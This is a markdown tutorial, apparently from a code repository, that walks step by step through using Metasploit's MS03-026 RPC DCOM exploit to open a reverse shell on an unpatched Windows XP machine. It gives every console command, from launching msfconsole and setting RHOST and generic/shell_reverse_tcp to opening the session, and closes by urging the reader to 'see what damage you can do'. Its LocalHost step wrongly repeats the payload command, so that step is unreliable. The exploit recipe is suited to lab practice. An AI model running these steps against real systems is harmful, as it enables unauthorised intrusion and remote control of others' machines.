

# Example Exploit 
There are multiple exploits for an un-patched windows xp box. Here is a guide on how to do one of them:

## Step 1 - Metasploit
Ok, we're going to be using metasploit for this attack. To get started run the following in a terminal:

`sudo -E service postgresql start && sudo -E msfdb init && sudo -E msfconsole;`

Be patient, it takes awhile for Metasploit to load all of its modules. The current version of Metasploit has 823 exploits and 250 payloads.

## Step 2 - Find the exploit 

One of the most reliable hacks is on the ubiquitous Windows XP system with the RPC DCOM. It's a buffer overflow attack that enables the attacker to execute any code of their choice on the owned box (note Microsoft's comment under impact of vulnerability). Microsoft identifies it as MS03-026 in their database of vulnerabilities. In our case, we will use it to open a reverse shell on our target system.

Now run `msf > search dcom` 
This will find the exploit

## Set the exploit 
Now let's tell Metasploit what exploit we want to use.
Type use and the name of our exploit, exploit/windows/dcerpc/ms03_026_dcom.

`msf > use exploit/windows/dcerpc/ms03_026_dcom`

## Set the options
Now that we've chosen our exploit, we can ask Metasploit what our options are. By typing show options, Metasploit will list our options in executing this exploit.

`msf > show options`

## Set Remote host
Metasploit will now ask us for the RHOST. This will be the IP address of the remote host or the machine we're attacking. In our case, it's `10.0.0.125`. Use the actual IP address of the machine you are attacking. Tools such as nmap can help in identifying the IP address of the machine you are attacking. Notice in the picture above that Metasploit tells us that we will be using (binding) port 135.

`msf > set RHOST 10.0.0.125`

## Show Payloads
Next, we check to see what payloads are available for this exploit. Type show payloads at the Metasploit prompt:

`msf > show payloads`

## Set Payload
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD generic/shell_reverse_tcp`

## Set LocalHost
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD generic/shell_reverse_tcp`

## Exploit 
Now we command Metasploit to exploit the system:

`msf > exploit`

## Open a shell! 
Type the command sessions –i 1 to open a command shell on the XP system that will appear on your Metasploit console.

`sessions –i 1`

To confirm that the command shell is on the Windows XP system, type dir to get a directory listing on the Windows XP system that you now own!

`C: >dir`

Congrats! Now see what damage you can do! 
